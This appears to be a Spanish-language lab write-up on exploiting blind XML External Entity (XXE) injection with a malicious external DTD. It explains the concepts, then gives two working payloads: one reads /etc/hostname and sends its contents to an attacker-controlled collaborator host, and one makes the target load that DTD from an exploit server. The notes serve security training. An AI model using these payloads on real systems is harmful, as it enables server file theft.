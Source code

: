 
# Lab 5 : Exploiting blind XXE to exfiltrate data using a malicious external DTD

Exploiting blind XXE to exfiltrate data using a malicious external DTD" se refiere a una técnica de ataque que aprovecha una vulnerabilidad de "XML External Entity Injection" (XXE) ciega para extraer datos confidenciales utilizando una DTD (Documento de Tipo de Documento) externa maliciosa.

Para entender esto mejor, desglosemos los elementos clave:

1. **XML External Entity Injection (XXE)**: Es una vulnerabilidad que ocurre cuando una aplicación procesa entradas XML no confiables sin la debida validación o mitigación. Permite que un atacante cargue entidades XML externas, lo que puede resultar en la exposición de información confidencial, ataques de denegación de servicio o incluso la ejecución remota de código.
    
2. **Blind XXE**: En este caso, se refiere a la situación en la que el atacante no recibe respuestas directas del servidor sobre los resultados de la inyección. En lugar de eso, el atacante intenta inferir el éxito del ataque observando interacciones "fuera de banda", es decir, interacciones del servidor con recursos controlados por el atacante, como solicitudes de red.
    
3. **Exfiltración de datos**: Se refiere al acto de robar o extraer datos confidenciales o valiosos desde un sistema o aplicación.
    
4. **Malicious external DTD**: Una DTD externa es una referencia a una definición de tipo de documento que se encuentra fuera del propio documento XML. Un atacante puede utilizar una DTD maliciosa para definir entidades que hacen referencia a recursos controlados por el atacante, como direcciones de IP o URLs. Esto permite al atacante llevar a cabo ataques de XXE ciegos y potencialmente extraer información sensible.

```java
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://go8zndrgbyrm21o0bv6jkht9b0hr5it7.oastify.com/?content=%file;'>">
%eval;
%exfil;
```
```java
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad500900314163a8220f54c012f00e8.exploit-server.net/exploit"> %xxe; ]>
```

![[Pasted image 20230817111331.png]]

![[Pasted image 20230817113813.png]]

![[Pasted image 20230817113843.png]]

![[Pasted image 20230817113858.png]]

---

# Lab 6 : Exploiting blind XXE to retrieve data via error messages
